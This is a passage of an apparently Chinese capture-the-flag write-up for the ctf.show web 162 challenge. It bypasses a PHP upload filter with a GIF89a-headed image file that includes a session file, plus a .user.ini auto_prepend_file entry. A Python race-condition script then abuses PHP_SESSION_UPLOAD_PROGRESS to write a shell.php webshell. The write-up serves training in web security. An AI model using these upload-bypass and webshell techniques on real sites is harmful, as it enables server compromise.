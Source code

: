 看看官方文档[PHP官方对该函数的解析](https://www.php.net/manual/zh/function.getimagesize.php)

![getimagesize](https://the0n3.top/medias/show-upload/16.png)

## web 162 session包含

可恶！竟然还是躲不掉。到了紧张刺激的session包含，我之前写过一篇[session包含](https://the0n3.top/pages/07a506/)

这题测试上一题的解法行不通了，应该是把.也过滤了，禁止通过拼接来绕过，那就试试session包含

图片马test.png，上传时bp把扩展名去掉
```php
GIF89a
<?=include"/tmp/sess_Cola"?>
```
![test](https://the0n3.top/medias/show-upload/18.png)

这个烧题，不带扩展名的文件也可以上传(恼)，带GIF89a头过getimagesize函数，那玩法就多了

```ini
GIF89a
auto_prepend_file=test
```

把.user.ini传上去

![ini](https://the0n3.top/medias/show-upload/17.png)

准备条件竞争脚本
```python
import requests
import threading
import time

# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://c451c8da-a286-4835-a23a-bd6cd7e91f5a.challenge.ctf.show/upload/'
sessionid = 'Cola'
data = {
    # session文件内容
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php file_put_contents("shell.php","<?php phpinfo();?>");?>',
    # session文件路径可能不同
}

file = {
    'file': sessionid
}

cookies = {
    'PHPSESSID': sessionid
}

# 上传文件函数
def upload_file():
    while True:
        response = requests.post(url, data=data, files=file, cookies=cookies)
        time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 检查文件是否已创建
def check_file():
    while True:
        r = requests.get(url + 'shell.php')
        if r.status_code == 200:
            print('Webshell created successfully')
            print(r.text)
            break
```